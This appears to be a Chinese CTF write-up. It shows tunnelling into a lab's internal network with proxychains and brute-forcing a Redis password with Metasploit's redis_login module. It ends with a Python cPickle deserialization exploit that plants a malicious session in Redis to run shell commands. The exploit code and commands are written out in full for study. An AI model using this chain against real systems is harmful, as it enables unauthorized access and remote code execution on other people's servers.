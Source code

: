  

##### 用proxychains做正向代理

```
vim /etc/proxychains.conf
```

添加一行：socks5 127.0.0.1 1080（具体取决于你的ss配置的端口）

不过我这里需要注释掉原来的那一行 `socks4 127.0.0.1 9050`

 

#### 命令行访问内网

```
proxychains4 ping web 
```

只需在前面加 `proxychains4` 就行了

 

#### 浏览器访问内网

浏览器配置浏览器代理，选择Sock5，ip设为127.0.0.1，端口设为默认的1080。

然后我们用浏览器访问http://web:2333/，注册登录之后在源码里面发现 `redis` 字样提示，得知是redis，用命令行访问

proxychains4 redis-cli -h web -p 6379

发现执行命令需要密码，我们用msf的模块爆破之：

```
sudo proxychains4 msfconsole
search redis
use auxiliary/scanner/redis/redis_login
set rhosts web
set rport 6379
exploit
```

得到密码：`password`

于是可以查看数据：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170641.png)

我看到了自己的session，发现是python序列化之后的数据，我们访问的时候他会对这个数据进行反序列化
如果我们控制了这个数据，那么可以利用反序列化来进行getshell
对python不是很熟悉，网上找到exp改一改：

```
#!/usr/bin/env python
import cPickle
import os
import redis
class exp(object):
    def __reduce__(self):
        s = "ls / > ./static/js/materialize.min.js"
        #执行命令，外带到一个js文件，弹shell是不可以的，BUU内网都不可以，折腾了好久
        return (os.system, (s,))
e = exp()
s = cPickle.dumps(e)
r = redis.Redis(host='web',password="password", port=6379, db=0)
r.set("session:1ea713bb-ad84-489b-b48b-1ba3f07b7ecb", s)#这里需要改为自己的session
```
